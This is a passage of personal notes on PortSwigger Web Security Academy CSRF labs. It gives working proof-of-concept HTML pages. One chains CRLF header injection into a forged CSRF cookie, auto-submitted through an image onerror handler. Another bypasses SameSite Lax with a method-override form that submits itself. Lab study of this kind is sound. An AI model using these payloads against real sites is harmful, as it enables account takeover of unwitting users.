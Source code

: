 - For the above Payload to work, The application must be vulnerable to two things
  - CSRF
  - XSS that reflected in the set-cookie header
- NO further comments

# LAB 6: CSRF where token is duplicated in cookie
```
<html>
  <head>
    <title>CSRF PoC</title>
  </head>
  <body>
    <form action="https://0ae3006a044d2fe682662fce0010001c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="bee@test.com">
      <input type="hidden" name="csrf" value="METGtpjA9tEIYkwoJCXah5QA28GJDtBq">
      <input type="submit" value="Click me">
    </form>

    <img src='https://0ae3006a044d2fe682662fce0010001c.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=METGtpjA9tEIYkwoJCXah5QA28GJDtBq%3b%20SameSite=None' onerror='document.forms[0].submit()' >
  </body>
</html>
```

# LAB &: SameSite Lax bypass via method override
- If the site does not have any csrf token but uses same site restriction to prevent CSRF
- We can bypass with this payload

```
!-- POST method override CSRF PoC -->
<!DOCTYPE html>
<html>
  <body>
    <form action="https://0a1600d504a345d481bf706500bf002e.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="_method" value="POST">
      <input type="hidden" name="email" value="hello@text.com">
      <input type="submit" value="Submit">
    </form>

    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# Lab: SameSite Strict bypass via client-side redirect
